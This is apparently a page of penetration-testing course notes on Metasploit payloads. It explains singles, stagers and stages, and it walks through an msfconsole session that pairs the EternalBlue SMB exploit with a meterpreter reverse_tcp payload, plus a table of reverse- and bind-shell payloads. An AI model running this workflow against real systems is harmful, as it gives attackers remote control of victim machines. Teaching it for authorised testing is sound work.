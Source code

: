 # Payloads

{% hint style="danger" %}
It is important to note that payloads and exploits HIGHLY depends on the target's environment, architecture. Etc since it is based on the return addresses of the functions and registers so at times we will be crafting our own.
{% endhint %}

## Payloads

Defined as the code that gets executed to exploit a certain vulnerability. The exists three types of payloads in metasploit:

* Singles: <mark style="color:purple;">windows/shell\_bind\_tcp</mark>, it contains the entire shellcode for the selected task, so they're more stable than the staged ones since they are all-in-one format which makes them heavier than other types of payloads.
* Stagers: windows/shell/<mark style="color:purple;">bind\_tcp</mark>, These work alongside stages, they are waiting on the attacker's machine to establish a connection to the victim host once the stage completes its task on the target. Small in size.
  * Faces a huge issue when dealing with NX bits and DEP measures.
  * Stagers that are NX-aware are bigger in size.&#x20;
* Stages: windows/<mark style="color:purple;">shell</mark>/bind\_tcp, payload components that are loaded by the loader.

### Staged Payloads

As mentioned earlier, they're an exploitation process that is decomposed and modularized to help in the segmentation of the exploitation in action to be less detectable and picked by AV or IPS. If all the stages work with no issues, the attacker will gain his beloved remote access.

The <mark style="color:red;">**meterpreter payload**</mark> for example uses DLL injection in order to ensure a communication with the target. Once we successfully infect the target, we see a meterpreter interface that looks like the msfconsole except that the commands that we will be executing are aimed at the target.

### Searching, Selecting and using payloads

```

msf6 > select <exploit>

# Help of grep in identifying the desired payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads 
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...

# Setting the payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload <Number Of Payload>
...

# After setting a payload we'll have to setup the options
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig
...
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > set LHOST <our-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <target-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
...
meterpreter > help
...

```

| <mark style="color:yellow;">**Payload**</mark> | <mark style="color:yellow;">Description</mark>                         |
| ---------------------------------------------- | ---------------------------------------------------------------------- |
| `generic/custom`                               | Generic listener, multi-use                                            |
| `generic/shell_bind_tcp`                       | Generic listener, multi-use, normal shell, TCP connection binding      |
| `generic/shell_reverse_tcp`                    | Generic listener, multi-use, normal shell, reverse TCP connection      |
| `windows/x64/exec`                             | Executes an arbitrary command (Windows x64)                            |
| `windows/x64/loadlibrary`                      | Loads an arbitrary x64 library path                                    |
| `windows/x64/messagebox`                       | Spawns a dialog via MessageBox using a customizable title, text & icon |
| `windows/x64/shell_reverse_tcp`                | Normal shell, single payload, reverse TCP connection                   |
| `windows/x64/shell/reverse_tcp`                | Normal shell, stager + stage, reverse TCP connection                   |
| `windows/x64/shell/bind_ipv6_tcp`              | Normal shell, stager + stage, IPv6 Bind TCP stager                     |
| `windows/x64/meterpreter/$`                    | Meterpreter payload + varieties above                                  |
| `windows/x64/powershell/$`                     | Interactive PowerShell sessions + varieties above                      |
| `windows/x64/vncinject/$`                      | VNC Server (Reflective Injection) + varieties above                    |

> Other critical payloads that are heavily used by penetration testers during security assessments are Empire and Cobalt Strike payloads. These are not in the scope of this course, but feel free to research them in our free time as they can provide a significant amount of insight into how professional penetration testers perform their assessments on high-value targets.

